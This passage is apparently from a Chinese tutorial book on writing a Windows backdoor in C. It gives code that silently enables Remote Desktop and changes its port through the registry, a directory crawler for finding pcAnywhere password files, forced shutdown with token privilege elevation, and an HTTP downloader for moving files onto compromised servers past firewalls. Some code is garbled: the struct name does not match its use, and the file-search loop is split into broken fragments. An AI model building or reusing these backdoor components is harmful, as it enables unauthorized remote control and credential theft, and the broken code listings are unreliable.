    CreateDWORDReg(HKEY_LOCAL_MACHINE,
        "SYSTEM\\CurrentControlSet\\Control\\Terminal Server",
        "TSEnabled", 0x00000001);
    CreateDWORDReg(HKEY_LOCAL_MACHINE,
        "SYSTEM\\CurrentControlSet\\Services\\TermDD",
        "Start", 0x00000002);
    CreateDWORDReg(HKEY_LOCAL_MACHINE,
        "SYSTEM\\CurrentControlSet\\Services\\TermService",
        "Start", 0x00000002);
    CreateDWORDReg(HKEY_LOCAL_MACHINE,
        "SYSTEM\\CurrentControlSet\\Control\\Terminal Server",
        "DenyTSConnections", 0x00000001);
    CreateDWORDReg(HKEY_LOCAL_MACHINE,
        "SYSTEM\\CurrentControlSet\\Control\\Terminal Server\\RDP-Tcp",
        "PortNumber", Port);
    CreateDWORDReg(HKEY_LOCAL_MACHINE,
        "SYSTEM\\CurrentControlSet\\Control\\Terminal Server\\WinStations\\RDP-Tcp",
        "PortNumber", Port);
    CreateDWORDReg(HKEY_LOCAL_MACHINE,
        "SYSTEM\\CurrentControlSet\\Control\\Terminal Server\\Wds\\rdpwd\\Tds\\tcp",
        "PortNumber", Port);
    CreateStringReg(HKEY_USERS,
        ".DEFAULT\\Keyboard Layout\\Toggle",
        "Hotkey", "2");
    CreateDWORDReg(HKEY_LOCAL_MACHINE,
        "SYSTEM\\CurrentControlSet\\Control\\Terminal Server",
        "DenyTSConnections", 0x00000000);

    OSVERSIONINFO osver={sizeof(OSVERSIONINFO)};
    // 得到系统版本号
    GetVersionEx(&osver);
    // 判断是不是 Windows 2000，是，则重启计算机
    if(osver.dwMajorVersion==5 && osver.dwMinorVersion==0)
        Reboot();

    return 0;
}
```

### 2.4 文件查找

前置知识：C/C++ 基础，链表编程基础

难度：中等

编译环境：VC++ 6.0

测试环境：Windows XP

对于后门来说文件查找是一个非常少见的功能，但是个人觉得这个功能挺有用的，比如我们要得到 pcanywhere 的密码，那么就得找到 .cif 文件，这时候这个功能就派上用场了。本小节我们就来实现文件查找功能。

文件查找其实是个非常繁琐的过程，我们可以分以下几步来实现，具体步骤如图 10 所示。



- 1. 对某个文件夹下的文件进行查找对比，看有没有符合要求的文件。
- 2. 同时要列出这个文件夹下的所有子文件夹。
- 3. 之后对子文件夹中的文件进行查找，也就是重复第一步、第二步，如此形成一个循环（因为子文件夹中还有子文件夹），直到找遍所有的文件夹。

从图中的步骤看，本程序可以使用递归来完成，但是本小节中我们并不用递归来实现这一程序，而是利用链表来完成这一过程，这要求大家对指针有较好的掌握。

> **编程小贴士**
>
> **什么是链表？**
>
> 链表是成员的集合，成员称为节点（Node），每个节点（除了最后一个）都包含下一个节点的地址。因此，链表中的每一个节点至少有两个成员：一个（也可以是多个）用来存储相应的信息，另一个用来存储地址，称为下一个节点的链接（Link）。链表中的第一个节点的地址存储在单独的单元中，称为链表的头（Head）或起始（First）。

本程序要建立一个链表，每次找到文件夹就加入这个链表，而当程序对一个文件夹搜索完毕后，就从链表中读取一个节点得到另一个文件夹，并且删掉这个节点，对得到的文件夹下的文件进行查找对比。如果遍历到文件夹就再添加入链表，找到目标文件就输出。如此循环，直到链表为空时，也就查找完毕，遍历所有目录了。

此链表如图 11 所示。

链表中的节点在 C++ 中对应了一个结构，在本程序中此结构定义如下：

```cpp
struct DnList{
```

```c
char table[256];
DirList *pNext;
};
```



`table` 字段用来保存找到的文件夹名。`pNext` 字段指向下一个节点的地址，也就是下一个 `DirList` 结构的地址。找到文件夹后，怎么把一个文件夹加入链表呢？这里要分两种情况：第一，当链表为空的时候；第二，当链表不为空的时候。

在这两种情况下，把一个文件夹加入链表的操作步骤是不一样的。首先来看第一种情况。当链表为空时，也就是 `first` 和 `last` 这两个节点指向的目标都为空，这种情况下只需要把这两个节点都指向新加入的节点即可。第二种就要稍微麻烦点了，具体如图 12 所示。



图 12 中的虚线表示在没加入新节点前存在，而加入新节点后就不存在了。这里假如新加入的是“文件夹 2”这个节点，那么加入新节点的方法也就可以从图 12 中看出来了：把最后一个节点的 `pNext` 字段指向新的节点，并且把 `last` 节点指向新节点就可以了。而找到文件夹后，把此文件夹名放入链表的函数如下所示：

```c
DirList *first, *newlist, *last;

// 加文件夹入链表
void AddList(char *list)
{
    newlist = new DirList;
    strcpy(newlist->table, list);
    newlist->pNext = NULL;

    // 假如文件链表为空，那么第一个和最后一个节点都指向新节点
    if (first == NULL)
    {
        first = newlist;
        last = newlist;
    }
    // 不为空，则原来最后一个节点指向新节点
    else
    {
        last->pNext = newlist;
        last = newlist;
    }
}
```

此函数的 `list` 参数指向一个文件夹字符串。

当一个节点被使用一次之后（也就是这个节点中保存的文件夹下的文件和子文件夹已经搜索过了），怎么删除这个节点呢？由于这里访问节点是从第一个节点开始的，也就是每次提取文件夹都访问 `first` 所指向的那个节点，这样这个过程也就比较简单了。我们还是通过流程图来理解，请看图 13 所示。



图 13

从图 13 中可以看出，我们只需要让 `first` 指向第二个节点就可以了。这样等程序再次提取目录时，提取的就是“文件夹 2”了。只需要一句代码就可以实现这一过程。

```c
first = first->pNext;
```

现在链表部分已经学习完了，接下来我们主要学习如何遍历一个文件夹。这一部分主要用到了两个 API 函数：`FindFirstFile` 和 `FindNextFile`。

在 MSDN 中这两个函数的描述是一样的：用于查找指定路径的主文件夹的子目录和文件。但是在实际编程中，我们必须先调用 `FindFirstFile` 函数获得一个句柄，然后才能调用 `FindNextFile` 函数继续查找文件，因为 `FindNextFile` 函数的第一个参数是由 `FindFirstFile` 函数返回的句柄。

#### FindFirstFile 函数

首先我们来学习 `FindFirstFile` 函数，此函数原型如下：

```c
HANDLE FindFirstFile(
    LPCTSTR lpFileName,
    LPWIN32_FIND_DATA lpFindFileData
);
```

`lpFileName` 参数指向要查找的文件名（包含路径），可以包含通配符 `*` 和 `?`，但不能超过 `MAX_PATH` 的长度。

`lpFindFileData` 参数是输出参数，它指向一个 `WIN32_FIND_DATA` 结构。该结构用来描述找到的文件或文件夹的属性，具体定义如下：

```c
typedef struct _WIN32_FIND_DATA {
    DWORD    dwFileAttributes;       // 文件的属性
    FILETIME ftCreationTime;         // 创建文件的时间
    FILETIME ftLastAccessTime;       // 最近一次访问文件的时间
    FILETIME ftLastWriteTime;        // 最近一次修改文件的时间
    DWORD    nFileSizeHigh;          // 文件大小的高位字
    DWORD    nFileSizeLow;           // 文件大小的低位字
    DWORD    dwReserved0;            // 保留，未使用
    DWORD    dwReserved1;            // 保留，未使用
    TCHAR    cFileName[MAX_PATH];    // 文件的名称
    TCHAR    cAlternateFileName[14]; // 文件的替换名称，用文件名后缀名表示
} WIN32_FIND_DATA, *PWIN32_FIND_DATA;
```

如果函数调用成功，则返回可供函数 `FindNextFile` 和函数 `FindClose` 使用的查找句柄，否则返回 `INVALID_HANDLE_VALUE`。

#### FindNextFile 函数

下面我们再来看 `FindNextFile` 函数，此函数原型如下：

```c
BOOL FindNextFile(
    HANDLE hFindFile,
    LPWIN32_FIND_DATA lpFindFileData
);
```

`hFindFile` 参数指向函数 `FindFirstFile` 返回的查找句柄。  
`lpFindFileData` 参数和 `FindFirstFile` 函数一样，指向一个 `WIN32_FIND_DATA` 结构。

如果函数调用成功则返回可供函数 `FindNextFile` 和函数 `FindClose` 使用的查找句柄，否则返回 `INVALID_HANDLE_VALUE`。

在遍历一个目录时，首先使用 `FindFirstFile` 函数，如果执行成功，返回 `hFindFile` 来对应这个查找操作；接下来可以利用这个句柄循环调用 `FindNextFile` 函数继续查找其他文件，直到该函数返回失败。最后还要调用 `FindClose` 函数关闭 `hFindFile` 句柄。

查找文件一般使用下面的结构：

```c
hFindFile = FindFirstFile(lpFileName, &lpfindData);
if (hFindFile != INVALID_HANDLE_VALUE)
{
    do
    {
        // 对找到的文件进行处理
    } while (FindNextFile(hFindFile, &findData));
}
```

到这里遍历一个目录的过程已经讲完了，下面我们来看一下遍历目录的代码。

```c
// 查找文件，并把找到的文件夹加入文件夹链表
void FindFile(char *pRoad, char *pFile)
{
    char FileRoad[256] = {0};
    char DirRoad[256] = {0};
    char FindedFile[256] = {0};
    char FindedDir[256] = {0};
    strcpy(FileRoad, pRoad);
    strcpy(DirRoad, pRoad);
    strcat(DirRoad, "\\*.*");
    WIN32_FIND_DATA findData;
    HANDLE hFindFile;
    hFindFile = FindFirstFile(DirRoad, &findData);
    if (hFindFile != INVALID_HANDLE_VALUE)
    {
        do
        {
            if (findData.cFileName[0] == '.')
                continue;
            // 假如是文件夹，则加入文件夹列表
            if (findData.dwFileAttributes & FILE_ATTRIBUTE_DIRECTORY)
            {
                // ...
            }
        } while (FindNextFile(hFindFile, &findData));
    }
}
```

```c
strcpy(FindedDir, pRoad);
strcat(FindedDir, "\\");
strcat(FindedDir, findData.cFileName);
// 加入文件夹列表
AddList(FindedDir);
memset(FindedDir, 0x00, 256);

// 继续查找
while (FindNextFile(hFindFile, &findData));

strcat(FileRoad, "\\");
strcat(FileRoad, pFile);
// 查找要查找的文件
hFindFile = FindFirstFile(FileRoad, &findData);
if (hFindFile != INVALID_HANDLE_VALUE)
{
    do
    {
        strcpy(FindedFile, pRoad);
        strcat(FindedFile, "\\");
        strcat(FindedFile, findData.cFileName);
        // 输出查找到的文件
        printf("%s\n", FindedFile);
        memset(FindedFile, 0x00, 256);
    } while (FindNextFile(hFindFile, &findData));
}
```

```c
int SeachFile(char *Directory, char *SeachFile)
{
    DirList NewList;
    strcpy(NewList.table, Directory);
    NewList.pNext = NULL;

    // 初始化第一个和最后一个节点
    last = &NewList;
    first = &NewList;
    while (true)
    {
        DirList *Find;
        // 假如链表不为空，提取链表中的第一个节点，并把第一个节点指向原来第二个
        if (first != NULL)
        {
            // 提取节点
            Find = first;
            // 并把第一个节点指向原来第二个
            first = first->pNext;
            // 在提取的节点的目录下查找文件
            FindFile(Find->table, SeachFile);
        }
        // 为空则停止查找
        else
        {
            break;
        }
    }
}
```

最后我们只需要在 `main` 函数中调用 `SeachFile` 函数即可。此函数第一个参数指向查找路径，第二个参数指向要查找的文件名。本程序中对此函数的调用如下：

```c
SeachFile(argv[1], argv[2]);
```

这样程序就能接收用户输入的信息了。在 cmd 里运行 `seach.exe c: *.log`，执行结果如图 14 所示。



图 14

### 2.5 重启、关机、注销

- 前置知识：C/C++ 基础
- 难度：简单
- 编译环境：VC++ 6.0
- 测试环境：Windows XP

现在很多后门都提供了重启、关机和注销功能，但后门一般是安装在服务器上的，对于个人电脑的控制一般用木马，所以重启和注销这两个功能是比较实用的。比如说 Win2000 开了远程终端后要重启，但关机功能却没有多大用处了。

其实重启、关机、注销在不同系统环境实现过程是不一样的，一般分为两种情况，具体如下：

- 在 Win 9x 下实现这些功能非常简单，只需要直接调用 `ExitWindowsEx` 函数就可以了。
- 在 Windows 2000 及以上系统上实现这些功能就没那么容易了。微软出于安全考虑，`ExitWindowsEx` 函数要有一定的权限才能运行。所以在调用 `ExitWindowsEx` 函数前要获得较高的系统权限。

从上面的描述可知，要实现 Win 9x 下的重启、关机、注销功能是比较简单的，我们只需要调用 `ExitWindowsEx` 函数就可以了。那么我们就先来实现 Win 9x 下的重启、关机、注销过程。

既然重启、关机、注销都要调用 `ExitWindowsEx` 函数，那么我们就先来学习 `ExitWindowsEx` 函数。利用该函数可以注销当前用户、关闭系统或者关闭并重新启动系统。函数原型如下：

```c
BOOL ExitWindowsEx(
    UINT uFlags,
    DWORD dwReserved
);
```

- **EWX_POWEROFF**：关闭系统及关闭电源。
- **EWX_LOGOFF**：关闭所有调用函数 `ExitWindowsEx` 的进程的安全环境里运行的进程，然后注销用户。
- **EWX_REBOOT**：关闭系统并重新启动系统。
- **EWX_SHUTDOWN**：关闭系统使之能完全关闭电源，所有文件缓冲区都被清洗到磁盘，所有运行的进程都停止。

`dwReserved` 参数一般设为 0。

```c
ExitWindowsEx(EWX_LOGOFF, 0);   // 注销
ExitWindowsEx(EWX_REBOOT, 0);   // 重启
ExitWindowsEx(EWX_SHUTDOWN, 0); // 关机
```

Win 9x 下的重启、关机和注销只需短短三行代码就搞定了。可是在 Windows 2000 及以上版本的系统上可没那么容易，前面也已经说过，必须要让程序进程获得较高的系统权限才能调用 `ExitWindowsEx` 函数。下面我们就来实现这一过程，其实也并不复杂，只是对几个 API 函数的调用而已，具体过程如图 15 所示。



从图 15 中可以看到，我们只需要调用三个 API 函数就能提升本进程权限。首先要调用 `OpenProcessToken` 函数打开本进程访问令牌，此函数原型如下：

```c
BOOL OpenProcessToken(
    HANDLE ProcessHandle,
    DWORD DesiredAccess,
    PHANDLE TokenHandle
);
```

`ProcessHandle` 参数指定要打开访问令牌的进程句柄。`DesiredAccess` 参数指定一个访问掩码，该掩码可以为访问令牌指定要求的访问类型。`TokenHandle` 参数指向句柄的指针，当函数返回时，该句柄标识新打开的访问令牌。如果成功，返回值非零；如果失败，返回值为 0。

当打开了本进程的访问令牌之后，就要调用 `LookupPrivilegeValue` 函数修改本进程的权限。下面我们来讲述 `LookupPrivilegeValue` 函数，其原型如下：

```c
BOOL LookupPrivilegeValue(
    LPCTSTR lpSystemName,
    LPCTSTR lpName,
    PLUID lpLuid
);
```

`lpSystemName` 参数指定系统名称，如果是本地系统只要指明为 `NULL` 就可以了。  
`lpName` 参数指明要修改的权限名称。  
`lpLuid` 参数指向返回的 `LUID` 的指针。  
函数调用成功返回 `TRUE`，否则返回 `FALSE`。

当修改完进程权限之后，我们必须把这个修改通知系统，接下去就要调用 `AdjustTokenPrivileges` 函数。此函数会通知 Windows NT 修改本进程的权利。函数原型如下：

```c
BOOL AdjustTokenPrivileges(
    HANDLE TokenHandle,
    BOOL DisableAllPrivileges,
    PTOKEN_PRIVILEGES NewState,
    DWORD BufferLength,
    PTOKEN_PRIVILEGES PreviousState,
    PDWORD ReturnLength
);
```

`TokenHandle` 参数指向访问令牌句柄。  
`DisableAllPrivileges` 参数决定是进行权限修改还是关闭（Disable）所有权限。  
`NewState` 参数指明要修改的权限，是一个指向 `TOKEN_PRIVILEGES` 结构的指针，该结构包含一个数组，数组的每个项指明了权限类型和要进行的操作。  
`BufferLength` 参数指明 `PreviousState` 结构的长度。  
`PreviousState` 参数指向 `TOKEN_PRIVILEGES` 结构，存放修改前的访问信息。  
`ReturnLength` 参数指向实际的 `PreviousState` 长度。  
如果函数调用成功，则返回 `TRUE`，否则返回 `FALSE`。

当成功调用了 `AdjustTokenPrivileges` 函数之后，程序就有了关闭计算机的权限。接下来我们只需要调用 `ExitWindowsEx` 来实现关机、重启、注销。

下面是 Windows 2000 及以上系统的具体代码，这里仅以关机为例（源码在光盘“第二章\重启、关机、注销\shutdown”下）：

```c
void ShutDown()
{
    HANDLE hToken;
    TOKEN_PRIVILEGES tkp;

    // 代表当前进程令牌
    if (!OpenProcessToken(GetCurrentProcess(),
        TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken)) {
        return;
    }

    // 获取本地唯一标识，用于在特定的系统中设置权限
    LookupPrivilegeValue(NULL, SE_SHUTDOWN_NAME, &tkp.Privileges[0].Luid);
    tkp.PrivilegeCount = 1;
    tkp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

    // 提升访问令牌权限
    ...
}
```

```cpp
AdjustTokenPrivileges(hToken, FALSE, &tkp, 0, (PTOKEN_PRIVILEGES)NULL, 0);
// 关机：要实现重启只需将第二个参数换成 EWX_REBOOT|EWX_FORCE
// 注销第一个参数换成 EWX_LOGOFF|EWX_FORCE
ExitWindowsEx(EWX_SHUTDOWN|EWX_FORCE, 0);
}
```

### 2.6 实现 HTTP 下载文件

- 前置知识：C/C++ 基础
- 难度：简单
- 编译环境：VC++6.0
- 测试环境：Windows XP

现在很多后门都提供了 HTTP 下载功能，这是一项非常实用的功能。在渗透过程中上传文件是必不可少的，有时候文件上传的成败会成为渗透成功与否的关键。而 HTTP 下载功能很好地实现了文件的上传，并且硬件防火墙一般不会拦截 HTTP 数据包，也就实现了穿越防火墙。

在编程中，HTTP 下载一般的实现方法有三种：

- 第一种是通过 Winsock 类库来实现，此种方法需要构造 HTTP 数据包；
- 第二种是通过 WinINet 函数实现；
- 第三种也是最简单的一种方法，通过函数 `URLDownloadToFile` 实现。

其实后两种方法中的 API 函数都是建立在 Winsock 类库的基础上的。由于前两种方法都比较繁琐，这里我们只讨论第三种方法。

第三种方法非常简单，只需要调用 `URLDownloadToFile` 函数就可以了。其实 IE 以默认方式下载文件时就调用了 `URLDownloadToFile` 函数。下面我们具体来了解一下 `URLDownloadToFile` 函数吧。

这个 API 函数是 `URLMON.DLL` 文件中的一个导出函数，简单地实现了把一个文件从 WEB 服务器下载到本地磁盘的功能。调用之前要引入相应的头文件：

```cpp
#include <urlmon.h>
```

并且由于 VC++6.0 默认没有加载连接文件，所以必须包含以下命令：

```cpp
#pragma comment(lib, "urlmon.lib")
```

接下去我们来了解下这个函数的原型，具体如下：

```cpp
HRESULT URLDownloadToFile(
  LPUNKNOWN pCaller,
  LPCTSTR   szURL,
  LPCTSTR   szFileName,
  DWORD     dwReserved,
  LPBINDSTATUSCALLBACK lpfnCB
);
```

`pCaller` 参数当调用者是一个 ActiveX 对象才使用，一般为 `NULL`。  
`szURL` 参数指向了要下载文件的目标 URL。  
`szFileName` 参数指向了本地保存路径（完整路径）。  
`dwReserved` 参数保留未使用，必须为 0。  
`lpfnCB` 参数指向一个 `IBindStatusCallback` 接口的指针，这就类似一种回调机制，编程时可以参考这些来获取当前下载进度，选择是否继续下载等等。

其实我们需要关心的参数也不多，只有 `szURL` 和 `szFileName` 两个参数，其他参数全部用 0 填充就可以了。那么下载文件的具体步骤又如何呢？请看图 16。



图16

从图 16 中可以看出，为了保证文件被下载到本地，对要下载的文件是否存在于目标位置进行了判断，假如存在则先删除文件，再下载目标文件。

那么怎么判断文件是否存在呢？我们可以用下面的自定义函数来实现：

```cpp
// 判断文件是否存在
BOOL FileExists(LPCTSTR lpszFileName)
{
    // 得到文件属性
    DWORD dwAtributes = GetFileAttributes(lpszFileName);
    // 函数返回 0xffffffff 则文件不存在
    if (dwAtributes == 0xffffffff)
    {
        return false;
    }
    // 否则文件存在
    else
    {
        return true;
    }
}
```

这里调用 `GetFileAttributes` 函数，此 API 函数是用来查看文件或者目录属性的，其原型如下：

```cpp
DWORD GetFileAttributes(
    LPCTSTR lpFileName
);
```

`GetFileAttributes` 函数只有一个参数，它指向了文件名的字符串。  
函数执行成功返回文件或目录的属性信息，说明目标文件存在；执行失败返回 `0xFFFFFFFF` 则说明文件不存在。

